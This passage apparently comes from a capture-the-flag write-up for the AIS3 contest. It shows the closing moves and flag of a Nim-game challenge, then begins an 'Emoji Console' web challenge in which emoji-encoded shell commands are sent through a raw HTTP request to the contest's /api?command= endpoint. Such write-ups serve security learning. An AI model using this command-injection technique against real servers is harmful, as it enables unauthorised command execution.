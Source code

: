 > 一直ENTER，讓機器拿到剩最後一個

![image](https://hackmd.io/_uploads/S1hQvve4R.png)

拿走最後一顆棋
```
+--------------------- moved ---------------------+
| you removed 1 stones from pile 1                |
+---+-------------- stones info ------------------+
| 0 | o                                           |
| 1 | o                                           |
+--------------------- moved ---------------------+
| i removed 1 stones from pile 1                  |
+---+-------------- stones info ------------------+
| 0 | o                                           |
+---+--------------- game menu -------------------+
| 0 | make a move                                 |
| 1 | save the current game and leave             |
| 2 | resign the game                             |
+---+---------------------------------------------+
it's your turn to move! what do you choose? 0
which pile do you choose? 0
how many stones do you remove? 1
```
![image](https://hackmd.io/_uploads/Sy2wwwxNA.png)

### Get FLAG
**FLAG: AIS3{Ar3_y0u_a_N1m_ma57er_0r_a_Crypt0_ma57er?}**

## Emoji Console
![image](https://hackmd.io/_uploads/BJQjODx4C.png)

http://chals1.ais3.org:5000/
![image](https://hackmd.io/_uploads/SkYhdPgE0.png)

### Emoji Console Solution
Execute Command
> ℹ️ 🅰️Ⓜ️ 🔼🐍 ⭐➖⭐

![image](https://hackmd.io/_uploads/SJcztwl4C.png)
```
GET /api?command=%E2%84%B9%EF%B8%8F%20%F0%9F%85%B0%EF%B8%8F%E2%93%82%EF%B8%8F%20%F0%9F%94%BC%F0%9F%90%8D%20%E2%AD%90%E2%9E%96%E2%AD%90 HTTP/1.1
Host: chals1.ais3.org:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: */*
Referer: http://chals1.ais3.org:5000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```
> 結論:
> 不能有字元，只能使用Emoji 執行
